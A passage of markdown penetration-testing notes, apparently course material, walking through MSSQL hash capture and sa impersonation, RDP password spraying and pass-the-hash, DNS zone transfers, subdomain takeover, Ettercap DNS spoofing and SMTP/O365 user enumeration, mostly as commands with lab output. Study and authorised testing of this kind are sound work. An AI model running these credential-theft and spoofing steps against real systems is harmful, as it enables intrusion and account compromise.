EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```
```bash
# HResult 0x55F6, Level 16, State 1
# xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```

If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.

**XP_SUBDIRS Hash Stealing with Responder**

```bash
sudo responder -I tun0
```
```bash
#                                          __               
#   .----.-----.-----.-----.-----.-----.--|  |.-----.----.
#   |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
#   |__| |_____|_____|   __|_____|__|__|_____||_____|__|
#                    |__|              
# <SNIP>

# [+] Listening for events...

# [SMB] NTLMv2-SSP Client   : 10.10.110.17
# [SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
# [SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3ab1c4380b94a1:<NTLM_HASH>:<BLOB>
```

**XP_SUBDIRS Hash Stealing with Responder**

```bash
sudo impacket-smbserver share ./ -smb2support
```
```bash
# Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
# [*] Config file parsed
# [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
# [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
# [*] Config file parsed                                                 
# [*] Config file parsed                                                 
# [*] Config file parsed
# [*] Incoming connection (10.129.203.7,49728)
# [*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
# [*] User WINSRV02\mssqlsvc authenticated successfully                        
# [*] demouser::WIN7BOX:5e3ab1c4380b94a1:<NTLM_HASH>:<BLOB>
# [*] Closing down connection (10.129.203.7,49728)                      
# [*] Remaining connections []
```

</details>

<details>
<summary><h4>Step 5: Impersonate Existing Users</h4></summary>

SQL Server has a special permission, named **IMPERSONATE**, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends.

**Identify Users that We Can Impersonate**

```sql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```
```bash
# name
# -----------------------------------------------
# sa
# ben
# valentin

# (3 rows affected)
```

**Verifying our Current User and Role**

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
```bash
# -----------
# julio                                                                                                                    

# (1 rows affected)

# -----------
#           0

# (1 rows affected)
```

As the returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the **sa** user.

**Impersonating the SA User**

```sql
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
```bash
# -----------
# sa

# (1 rows affected)

# -----------
#           1

# (1 rows affected)
```

We can now execute any command as a sysadmin as the returned value 1 indicates.

>**NOTE:** Note: It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using **USE master**.

> **Note:** If we find a user who is not sysadmin, we can still check if the user has access to other databases or linked servers.

</details>

<details>
<summary><h4>Step 6: Communicate with Other Databases</h4></summary>

Microsoft SQL Server includes a [linked servers](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine) feature that allows queries to span multiple database instances or products (such as Oracle) from within T‑SQL.

From a security perspective, access to a SQL Server with one or more linked servers can create a lateral‑movement path. Administrators sometimes configure linked servers with credentials that originate on the remote system; if those credentials carry sysadmin rights, an adversary—or an authorized assessor—could potentially execute commands on the remote SQL instance. Proper least‑privilege configuration and monitoring are recommended to mitigate this risk.

**Identify linked Servers**

```sql
SELECT srvname, isremote FROM sysservers
GO
```
```bash
# srvname                             isremote
# ----------------------------------- --------
# DESKTOP-MFERMN4\SQLEXPRESS          1
# 10.0.0.12\SQLEXPRESS                0

# (2 rows affected)
```

The query returns each server’s name and the `isremote` flag. In this context, `1` indicates a remote server entry, while `0` sindicates a linked‑server entry on the local instance. For additional details about server metadata, consult the [sysservers compatibility view](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql?view=sql-server-ver17).


| srvname                    | isremote | Meaning                         |
| -------------------------- | :------: | ------------------------------- |
| DESKTOP-MFERMN4\SQLEXPRESS |     1    | Remote server                   |
| 10.0.0.12\SQLEXPRESS       |     0    | Linked server on local instance |

**Identify the user used for the connection and its privileges**

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO
```
```bash
# ------------------------------ ------------------------------ ------------------------------ -----------
# DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

# (1 rows affected)
```

> **Note:** If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

As **sysadmin**, we control the SQL Server instance. We can read data from any database or execute system commands with `xp_cmdshell`.

</details>

</details>

</details>

</details>

---

<details>
<summary><h1>🖧 RDP</h1></summary>

Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft that provides a user with a graphical interface to connect to another computer over a network connection. It is one of the most popular administration tools, allowing centralized control of remote systems with the same functionality as if they were on-site.

* **Default Port: TCP/3389**

RDP is widely used because it enables:
* Full graphical control of remote Windows systems
* Centralized administration of distributed IT infrastructure
* Managed Service Providers (MSPs) to support many client networks from a single location

Unfortunately, while RDP greatly facilitates remote administration, it also creates a significant gateway for attacks. It is a prime target for attackers because:
* It provides direct, graphical access to a target system.
* It is often exposed to the internet for convenience.
* Compromising an RDP connection can bypass many other security controls.

**Security Risks**

If an attacker gains access to an RDP port, they may be able to:
* Launch brute-force or password-spraying attacks to steal user credentials
* Exploit vulnerabilities in the RDP service itself (e.g., BlueKeep)
* Move laterally through a network after compromising a single machine
* Escalate privileges, especially if an administrator account is compromised

<details>
<summary><h2>Nmap scan</h2></summary>

```bash
sudo nmap -Pn -p3389 <TARGET_IP>
```
```bash
# Host discovery disabled (-Pn). All addresses will be marked 'up', and scan times will be slower.
# Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 04:20 BST
# Nmap scan report for <TARGET_IP>
# Host is up (0.00037s latency).

# PORT     STATE    SERVICE
# 3389/tcp open ms-wbt-server
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-Pn`           | Treat host as online (skip ICMP ping discovery) |
| `-p3389`        | Scan only port 3389 (RDP default)               |
| `<TARGET_IP>`   | Target IP address                               |

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

Since RDP relies on user credentials for authentication, a common attack vector is password guessing. While rare, misconfigurations can even result in an RDP service with no password set.

> **NOTE:** A critical consideration when attacking Windows authentication is the account lockout policy. To avoid locking out accounts, a technique called Password Spraying is used. This involves trying one common password against a list of usernames before moving on to the next password.

**Example Attack: Password Spraying**

**Step 1: Create a User List**

```bash
cat usernames.txt
```
```bash
# root
# test
# user
# guest
# admin
# administrator
```

**Step 2: Execute the Password Spray**

**Option 1: Crowbar**

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
```bash
# 2022-04-07 15:35:50 START
# 2022-04-07 15:35:50 Crowbar v0.4.1
# 2022-04-07 15:35:50 Trying 192.168.220.142:3389
# 2022-04-07 15:35:52 RDP-SUCCESS : 192.168.220.142:3389 - administrator:password123
# 2022-04-07 15:35:52 STOP
```

**Option 2: Hydra**

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
```bash
# Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

# ...

# [DATA] attacking rdp://192.168.2.147:3389/
# [3389][rdp] host: 192.168.2.143   login: administrator   password: password123
# 1 of 1 target successfully completed, 1 valid password found
```

**Step 3: RDP Login with valid credentials**

```bash
rdesktop -u administrator -p password123 192.168.2.143
```

</details>

<details>
<summary><h2>RDP Pass-the-Hash (PtH)</h2></summary>

During a penetration test, we often need GUI access to leverage specific applications on a Windows target. While plaintext credentials make this easy via RDP, we frequently only have the user's **NT hash** (e.g., dumped from the SAM database or LSASS memory). If the hash is un-crackable, we can attempt an **RDP Pass-the-Hash (PtH)** attack to gain graphical access without needing the plaintext password.

This attack requires **Restricted Admin Mode**, which is disabled by default on modern Windows systems. It must be enabled on the target host via the registry.

**Registry Key to Modify:**
```cmd
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa
```

**Value Name:** DisableRestrictedAdmin
**Type:** REG_DWORD
**Value Data:** 0 (enables PtH)

**Step 1: Add the DisableRestrictedAdmin Registry Key**

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

**Step 2: Use xfreerdp with the option /pth**

```bash
xfreerdp /v:<TARGET_IP> /u:<USER> /pth:<HASH>
```


</details>

</details>

---

<details>
<summary><h1>🌐 DNS</h1></summary>

The **Domain Name System (DNS)** translates human-readable domain names (e.g., `hackthebox.com`) into numerical IP addresses (e.g., `104.17.42.72`). While DNS primarily operates over **UDP/53**, it has always supported both **UDP and TCP on port 53**. UDP is the default, but when communication over UDP fails—typically due to packet size limitations—DNS falls back to TCP.

As nearly all network applications depend on DNS, attacks against DNS servers are both widespread and highly impactful, making DNS a critical target in network security.

<details>
<summary><h2>Nmap scan</h2></summary>

```bash
sudo nmap -p53 -Pn -sV -sC <TARGET_IP>
```
```bash
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-29 03:47 EDT
# Nmap scan report for <TARGET_IP>
# Host is up (0.017s latency).

# PORT    STATE  SERVICE     VERSION
# 53/tcp  open   domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
```

| Flag            | Purpose                                                                      |
| --------------- | ---------------------------------------------------------------------------- |
| `-p53`          | Scan only port 53 (DNS service)                                              |
| `-Pn`           | Treat host as online (skip ICMP ping discovery)                              |
| `-sV`           | Probe open ports to determine service/version information                    |
| `-sC`           | Run Nmap’s default set of scripts against the target (DNS enumeration, etc.) |
| `<TARGET_IP>` | Target IP address                                                            |

</details>

<details>
<summary><h2>DNS Zone Transfers (AXFR)</h2></summary>

**DNS Zone**
* Portion of the DNS namespace managed by an organization/administrator.
* The DNS namespace is divided into multiple zones.
* Each zone contains resource records (hostnames, IPs, MX, TXT, etc.).

**Zone Transfers**

* DNS servers synchronize by copying zone data from one server to another.
* Used for redundancy and consistency.

**Why is it a Vulnerability?**

* By default, zone transfers don’t require authentication.
* If not restricted, **anyone** can request the entire zone data.
* Attackers gain:
    * Subdomains
    * Internal hostnames
    * Mail servers
    * Network structure clues
    * Expanded attack surface

**DIG - AXFR Zone Transfer**

For exploitation, we can use the dig utility with DNS query type AXFR option to dump the entire DNS namespaces from a vulnerable DNS server:

```bash
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```
```bash
# ; <<>> DiG 9.11.5-P1-1-Debian <<>> axfr inlanefrieght.htb @10.129.110.213
# ;; global options: +cmd
# inlanefrieght.htb.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
# inlanefrieght.htb.         604800  IN      AAAA    ::1
# inlanefrieght.htb.         604800  IN      NS      localhost.
# inlanefrieght.htb.         604800  IN      A       10.129.110.22
# admin.inlanefrieght.htb.   604800  IN      A       10.129.110.21
# hr.inlanefrieght.htb.      604800  IN      A       10.129.110.25
# support.inlanefrieght.htb. 604800  IN      A       10.129.110.28
# inlanefrieght.htb.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
# ;; Query time: 28 msec
# ;; SERVER: 10.129.110.213#53(10.129.110.213)
# ;; WHEN: Mon Oct 11 17:20:13 EDT 2020
# ;; XFR size: 8 records (messages 1, bytes 289)
```

**Fierce - AXFR Zone Transfer**

Tools like [Fierce](https://github.com/mschwager/fierce) can also be used to enumerate all DNS servers of the root domain and scan for a DNS zone transfer

```bash
fierce --domain zonetransfer.me
```
```bash
# NS: nsztm2.digi.ninja. nsztm1.digi.ninja.
# SOA: nsztm1.digi.ninja. (81.4.108.41)
# Zone: success
# {<DNS name @>: '@ 7200 IN SOA nsztm1.digi.ninja. robin.digi.ninja. 2019100801 '
#                '172800 900 1209600 3600\n'
#                '@ 300 IN HINFO "Casio fx-700G" "Windows XP"\n'
#                '@ 301 IN TXT '
#                '"google-site-verification=tyP28J7JAUHA9fw2sHXMgcCC0I6XBmmoVi04VlMewxA"\n'
#                '@ 7200 IN MX 0 ASPMX.L.GOOGLE.COM.\n'
#                '@ 7200 IN MX 10 ALT1.ASPMX.L.GOOGLE.COM.\n'
#                '@ 7200 IN MX 10 ALT2.ASPMX.L.GOOGLE.COM.\n'
#                '@ 7200 IN MX 20 ASPMX2.GOOGLEMAIL.COM.\n'
#                '@ 7200 IN MX 20 ASPMX3.GOOGLEMAIL.COM.\n'
#                '@ 7200 IN MX 20 ASPMX4.GOOGLEMAIL.COM.\n'
#                '@ 7200 IN MX 20 ASPMX5.GOOGLEMAIL.COM.\n'
#                '@ 7200 IN A 5.196.105.14\n'
#                '@ 7200 IN NS nsztm1.digi.ninja.\n'
#                '@ 7200 IN NS nsztm2.digi.ninja.',
#  <DNS name _acme-challenge>: '_acme-challenge 301 IN TXT '
#                              '"6Oa05hbUJ9xSsvYy7pApQvwCUSSGgxvrbdizjePEsZI"',
#  <DNS name _sip._tcp>: '_sip._tcp 14000 IN SRV 0 0 5060 www',
#  <DNS name 14.105.196.5.IN-ADDR.ARPA>: '14.105.196.5.IN-ADDR.ARPA 7200 IN PTR '
#                                        'www',
#  <DNS name asfdbauthdns>: 'asfdbauthdns 7900 IN AFSDB 1 asfdbbox',
#  <DNS name asfdbbox>: 'asfdbbox 7200 IN A 127.0.0.1',
#  <DNS name asfdbvolume>: 'asfdbvolume 7800 IN AFSDB 1 asfdbbox',
#  <DNS name canberra-office>: 'canberra-office 7200 IN A 202.14.81.230',
#  <DNS name cmdexec>: 'cmdexec 300 IN TXT "; ls"',
#  <DNS name contact>: 'contact 2592000 IN TXT "Remember to call or email Pippa '
#                      'on +44 123 4567890 or pippa@zonetransfer.me when making '
#                      'DNS changes"',
#  <DNS name dc-office>: 'dc-office 7200 IN A 143.228.181.132',
#  <DNS name deadbeef>: 'deadbeef 7201 IN AAAA dead:beaf::',
#  <DNS name dr>: 'dr 300 IN LOC 53 20 56.558 N 1 38 33.526 W 0.00m',
#  <DNS name DZC>: 'DZC 7200 IN TXT "AbCdEfG"',
#  <DNS name email>: 'email 2222 IN NAPTR 1 1 "P" "E2U+email" "" '
#                    'email.zonetransfer.me\n'
#                    'email 7200 IN A 74.125.206.26',
#  <DNS name Hello>: 'Hello 7200 IN TXT "Hi to Josh and all his class"',
#  <DNS name home>: 'home 7200 IN A 127.0.0.1',
#  <DNS name Info>: 'Info 7200 IN TXT "ZoneTransfer.me service provided by Robin '
#                   'Wood - robin@digi.ninja. See '
#                   'http://digi.ninja/projects/zonetransferme.php for more '
#                   'information."',
#  <DNS name internal>: 'internal 300 IN NS intns1\ninternal 300 IN NS intns2',
#  <DNS name intns1>: 'intns1 300 IN A 81.4.108.41',
#  <DNS name intns2>: 'intns2 300 IN A 167.88.42.94',
#  <DNS name office>: 'office 7200 IN A 4.23.39.254',
#  <DNS name ipv6actnow.org>: 'ipv6actnow.org 7200 IN AAAA '
#                             '2001:67c:2e8:11::c100:1332',
# ...
```

</details>

<details>
<summary><h2>Domain Takeovers & Subdomain Enumeration</h2></summary>

**Domain Takeover**

* **Definition:** Registering an expired domain to gain control over assets pointing to it.
* **Attack surface:**
    * Old domains no longer maintained.
    * Abandoned services or domains linked in DNS records.
* **Impact:**
    * Host malicious content under a trusted brand.
    * Launch phishing attacks using the claimed domain.
    * Hijack email flows (SPF/DKIM/DMARC misconfigurations).

**Subdomain Takeover**

* **Definition:** Hijacking an unclaimed subdomain that points to a third-party service.

* **How it works:**
    1. Organization creates a CNAME record → points sub.example.com to a third-party service (e.g., GitHub Pages, AWS S3, Azure).
    2. Service is later unprovisioned (deleted/not claimed).
    3. DNS record still exists → attacker claims the resource.
* **Result:** Attacker hosts malicious content under a trusted subdomain.

**Subdomain Enumeration**

Before performing a subdomain takeover, we should enumerate subdomains for a target domain using tools like [Subfinder](https://github.com/projectdiscovery/subfinder) or  [Sublist3r](https://github.com/aboul3la/Sublist3r).

<details>
<summary><h3>Enumeration</h3></summary>

**Option 1: Subfinder enumeration**

```bash
./subfinder -d inlanefreight.com -v  
```
```bash
#         _     __ _         _                                           
# ____  _| |__ / _(_)_ _  __| |___ _ _          
# (_-< || | '_ \  _| | ' \/ _  / -_) '_|                 
# /__/\_,_|_.__/_| |_|_||_\__,_\___|_| v2.4.5                                                                                                                                                                                                                                                 
#                 projectdiscovery.io                    
                                                                       
# [WRN] Use with caution. You are responsible for your actions
# [WRN] Developers assume no liability and are not responsible for any misuse or damage.
# [WRN] By using subfinder, you also agree to the terms of the APIs used. 
                                   
# [INF] Enumerating subdomains for inlanefreight.com
# [alienvault] www.inlanefreight.com
# [dnsdumpster] ns1.inlanefreight.com
# [dnsdumpster] ns2.inlanefreight.com
# ...snip...
# [bufferover] Source took 2.193235338s for enumeration
# ns2.inlanefreight.com
# www.inlanefreight.com
# ns1.inlanefreight.com
# support.inlanefreight.com
# [INF] Found 4 subdomains for inlanefreight.com in 20 seconds 11 milliseconds
```

**Option : Subbrute enumeration**

```bash
git clone https://github.com/TheRook/subbrute.git >> /dev/null 2>&1
cd subbrute
echo "ns1.inlanefreight.com" > ./resolvers.txt
./subbrute.py inlanefreight.com -s ./names.txt -r ./resolvers.txt
```
```bash
# Warning: Fewer than 16 resolvers per process, consider adding more nameservers to resolvers.txt.
# inlanefreight.com
# ns2.inlanefreight.com
# www.inlanefreight.com
# ms1.inlanefreight.com
# support.inlanefreight.com
# ...  
```

Sometimes, internal physical configurations are poorly secured, allowing us to exploit them to introduce tools directly from a USB device.

Another scenario occurs when we have pivoted into an internal host and want to operate from there, requiring us to upload our toolset.

While there are many ways to transfer files in such environments, it is valuable to understand multiple alternatives, as redundancy increases reliability during an engagement.

The tool has found four subdomains associated with `inlanefreight.com`. Using the `nslookup` or `host` command, we can enumerate the **CNAME** records for those subdomains.

```bash 
host support.inlanefreight.com
```
```bash 
# support.inlanefreight.com is an alias for inlanefreight.s3.amazonaws.com
```

The *support* subdomain has an alias record pointing to an AWS S3 bucket. However, the URL https://support.inlanefreight.com shows a NoSuchBucket error indicating that the subdomain is potentially vulnerable to a subdomain takeover. Now, we can take over the subdomain by creating an AWS S3 bucket with the same subdomain name.

The [can-i-take-over-xyz](https://github.com/EdOverflow/can-i-take-over-xyz) repository is also an excellent reference for a subdomain takeover vulnerability. It shows whether the target services are vulnerable to a subdomain takeover and provides guidelines on assessing the vulnerability.

</details>

</details>

<details>
<summary><h2>DNS Spoofing (DNS Cache Poisoning)</h2></summary>

DNS spoofing (also known as DNS Cache Poisoning) is an attack where legitimate DNS records are altered with false information, allowing attackers to redirect online traffic to fraudulent websites.

**Example Attack Paths**

1. Man-in-the-Middle (MITM) Attack
    * The attacker intercepts communication between a user and a DNS server.
    * The user is then routed to a fraudulent destination instead of the legitimate one.
2. Exploiting DNS Server Vulnerability
    * The attacker identifies and exploits a flaw in a DNS server.
    * Gaining control, they modify DNS records to redirect traffic.

**Attack Flow**



<details>
<summary><h2>Local DNS Cache Poisoning</h2></summary>

From a local network perspective, an attacker can also perform DNS Cache Poisoning using MITM tools like Ettercap or Bettercap.

1. **Edit the Ettercap DNS File**
    * Add an entry mapping the target domain to the attacker’s IP:

```bash 
cat /etc/ettercap/etter.dns
```
```bash 
# <DOMAIN>   A   <ATTACKER_IP>
```

2. **Launch Ettercap and Scan the Network**
    * Start Ettercap.
    * Navigate to: *Hosts > Scan for Hosts*
    * Identify the target machine and the gateway.

3. **Set Targets**
    * Assign Target1 → `<TARGET_IP>`
    * Assign Target1 → `<ATTACKER_IP>`

3. **Enable DNS Spoofing Plugin**
    * Navigate to: *Plugins > Manage Plugins*
    * Activate *dns_spoof*

This will send the victim fake DNS responses, resolving `<DOMAIN>` → `<ATTACKER_IP>`

**Results of a Successful Attack**

When the victim visits `<DOMAIN>` in a browser →
They are redirected to the fake page hosted at `<ATTACKER_IP>`.

Even a ping test resolves to the attacker’s IP:
```cmd 
C:\>ping <DOMAIN>
```
```bash 
# Ping <DOMAIN> [<ATTACKER_IP>] with 32 bytes of data:
# Reply from <ATTACKER_IP>: bytes=32 time<1ms TTL=64
# Reply from <ATTACKER_IP>: bytes=32 time<1ms TTL=64
# Reply from <ATTACKER_IP>: bytes=32 time<1ms TTL=64
# Reply from <ATTACKER_IP>: bytes=32 time<1ms TTL=64

# Ping statistics for <ATTACKER_IP>:
#     Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
# Approximate round trip times in milli-seconds:
#     Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

**Attack Flow**



</details>

</details>

</details>

---

<details>
<summary><h1>📨 SMTP</h1></summary>

A mail server (or email server) is responsible for handling and delivering email over a network, typically the Internet.

* Functions:
    * Receives emails from client devices.
    * Sends emails to other mail servers.
    * Delivers emails back to client devices.

> **NOTE:** In this context, "clients" are devices where users read emails (e.g., computers, smartphones).

**Sending Emails (SMTP)**

When you press Send in your email application:
1. The client establishes a connection to an SMTP server.
2. SMTP = Simple Mail Transfer Protocol.
    * Handles delivery of emails from clients → servers.
    * Handles forwarding of emails between servers.

**Receiving Emails (POP3 vs. IMAP4)**

* POP3 (Post Office Protocol v3):
    * Downloads emails from the server to the client.
    * Default behavior: removes the message from the server after download.
    * Issue: difficult to access emails from multiple devices.
    * Solution: configure the POP3 client to keep a copy on the server.
* IMAP4 (Internet Message Access Protocol v4):
    * Syncs emails between server and client.
    * Default behavior: leaves emails on the server.
    * Benefit: access the same mailbox from multiple devices seamlessly.

**Protocols and Flow**



<details>
<summary><h2>Enumeration</h2></summary>

**Why Email Servers Are Complex**
* Organizations often deploy multiple servers, ports, and services.
* Many companies now outsource email to the cloud (e.g., Microsoft 365, Google Workspace / G-Suite).
* Attack surface and techniques differ depending on the provider or on-premises setup.

**Identifying Mail Servers with MX Records**
* **MX (Mail eXchanger) Record:**
    * A DNS record that specifies the mail server(s) responsible for accepting emails for a domain.
    * Each MX record points to a hostname of a mail server.

* **Multiple MX Records:**
    * Organizations often publish several MX records.
    * Purpose:
        * Load balancing: distribute incoming mail across multiple servers.
        * Redundancy: provide backup if one server fails.

We can use tools such as host or dig and online websites such as MXToolbox to query information about the MX records:

**Option 1: Host - MX Records**
```bash 
host -t MX hackthebox.eu
```
```bash 
# hackthebox.eu mail is handled by 1 aspmx.l.google.com.
```
```bash 
host -t MX microsoft.com
```
```bash 
# microsoft.com mail is handled by 10 microsoft-com.mail.protection.outlook.com.
```

**Option 2: DIG - MX Records**
```bash 
dig mx plaintext.do | grep "MX" | grep -v ";"
```
```bash 
# plaintext.do.           7076    IN      MX      50 mx3.zoho.com.
# plaintext.do.           7076    IN      MX      10 mx.zoho.com.
# plaintext.do.           7076    IN      MX      20 mx2.zoho.com.
```
```bash 
dig mx inlanefreight.com | grep "MX" | grep -v ";"
```
```bash 
# inlanefreight.com.      300     IN      MX      10 mail1.inlanefreight.com.
```

**Option 3: Host - A Records**
```bash 
host -t A mail1.inlanefreight.htb
```
```bash 
# mail1.inlanefreight.htb has address 10.129.14.128
```

**Why This Matters**

* Cloud Providers:
    * Use modern authentication.
    * Introduce unique attack vectors per provider.
* Custom Mail Servers:
    * May expose misconfigurations.
    * Can allow classic attacks against mail protocols.

**Common Ports for Mail Services**

| Port | Service | Encryption         |
| ---- | ------- | ------------------ |
| 25   | SMTP    | Unencrypted        |
| 465  | SMTP    | Encrypted (SMTPS)  |
| 587  | SMTP    | STARTTLS/Encrypted |
| 110  | POP3    | Unencrypted        |
| 995  | POP3    | Encrypted          |
| 143  | IMAP4   | Unencrypted        |
| 993  | IMAP4   | Encrypted          |

We can use Nmap's default script -sC option to enumerate those ports on the target system:

```bash 
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 <TARGET_IP>
```
```bash 
# Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-27 17:56 CEST
# Nmap scan report for <TARGET_IP>
# Host is up (0.00025s latency).

# PORT   STATE SERVICE VERSION
# 25/tcp open  smtp    Postfix smtpd
# |_smtp-commands: mail1.inlanefreight.htb, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
# MAC Address: 00:00:00:00:00:00 (VMware)
```

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

Email services rely on authentication to allow users to send and receive emails.
However, misconfigurations can expose sensitive information or allow abuse.

**Common Misconfiguration**

* Anonymous authentication enabled on the SMTP service.
* Insecure protocols or commands that can be used to enumerate valid usernames.

**Authentication and User Enumeration**

SMTP supports commands that can be abused to enumerate valid users on a mail server:
* **VRFY** → Verify if a username/email exists.
```bash 
telnet <TARGET_IP> 25

# Trying <TARGET_IP>...
# Connected to <TARGET_IP>.
# Escape character is '^]'.
# 220 parrot ESMTP Postfix (Debian/GNU)

VRFY root
# 252 2.0.0 root

VRFY www-data
# 252 2.0.0 www-data

VRFY new-user
# 550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```
* EXPN → Expand mailing lists into actual usernames.
```bash 
telnet <TARGET_IP> 25

# Trying <TARGET_IP>...
# Connected to <TARGET_IP>.
# Escape character is '^]'.
# 220 parrot ESMTP Postfix (Debian/GNU)

EXPN john
# 250 2.1.0 john@inlanefreight.htb

EXPN support-team
# 250 2.0.0 carol@inlanefreight.htb
# 250 2.1.5 elisa@inlanefreight.htb
```
* RCPT TO → Used during email delivery; server responses can reveal if a recipient exists.
```bash 
telnet <TARGET_IP> 25

# Trying <TARGET_IP>...
# Connected to <TARGET_IP>.
# Escape character is '^]'.
# 220 parrot ESMTP Postfix (Debian/GNU)

MAIL FROM:test@htb.com
# it is
# 250 2.1.0 test@htb.com... Sender ok

RCPT TO:julio
# 550 5.1.1 julio... User unknown

RCPT TO:kate
# 550 5.1.1 kate... User unknown

RCPT TO:john
# 250 2.1.5 john... Recipient ok
```
* USER → Used followed by the username, and if the server responds OK. This means that the user exists on the server.
```bash 
telnet <TARGET_IP> 110

# Trying <TARGET_IP>...
# Connected to <TARGET_IP>.
# Escape character is '^]'.
# +OK POP3 Server ready

USER julio
# -ERR

USER john
# +OK
```

**Automating with `smtp-user-enum`**

Instead of manual testing, use smtp-user-enum to automate enumeration.

```bash 
smtp-user-enum -M <MODE> -U <USER_LIST> -D <DOMAIN> -t <TARGET_IP>
```
```bash 
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7

# Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

#  ----------------------------------------------------------
# |                   Scan Information                       |
#  ----------------------------------------------------------

# Mode ..................... RCPT
# Worker Processes ......... 5
# Usernames file ........... userlist.txt
# Target count ............. 1
# Username count ........... 78
# Target TCP port .......... 25
# Query timeout ............ 5 secs
# Target domain ............ inlanefreight.htb

# ######## Scan started at Thu Apr 21 06:53:07 2022 #########
# 10.129.203.7: jose@inlanefreight.htb exists
# 10.129.203.7: pedro@inlanefreight.htb exists
# 10.129.203.7: kate@inlanefreight.htb exists
# ######## Scan completed at Thu Apr 21 06:53:18 2022 #########
# 3 results.

# 78 queries in 11 seconds (7.1 queries / sec)
```

**Enumeration Process**



</details>

<details>
<summary><h2>Cloud Enumeration</h2></summary>

As discussed, cloud service providers use their own implementation for email services. Those services commonly have custom features that we can abuse for operation, such as username enumeration.

<details>
<summary><h3>O365 Spray</h3></summary>

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments).

**Step 1: Validate if our target domain is using Office 365**
```bash 
python3 o365spray.py --validate --domain <DOMAIN>
```
```bash 
python3 o365spray.py --validate --domain msplaintext.xyz

#             *** O365 Spray ***            

# >----------------------------------------<

#    > version        :  2.0.4
#    > domain         :  msplaintext.xyz
#    > validate       :  True
#    > timeout        :  25 seconds
#    > start          :  2025-04-13 09:46:40

# >----------------------------------------<

# [2025-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
# [2025-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

**Step 1: Attempt to identify usernames**
```bash 
python3 o365spray.py --enum -U <USERNAME_LIST> --domain <DOMAIN>
```
```bash 
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
#             *** O365 Spray ***             

# >----------------------------------------<

#    > version        :  2.0.4
#    > domain         :  msplaintext.xyz
#    > enum           :  True
#    > userfile       :  users.txt
#    > enum_module    :  office
#    > rate           :  10 threads
#    > timeout        :  25 seconds
#    > start          :  2025-04-13 09:48:03

# >----------------------------------------<

# [2025-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
# [2025-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
# [2025-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
# [2025-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
# [2025-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
# [2025-04-13 09:48:10,415] INFO : 

# [ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2504130948.txt'
# [ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2504130948.txt'

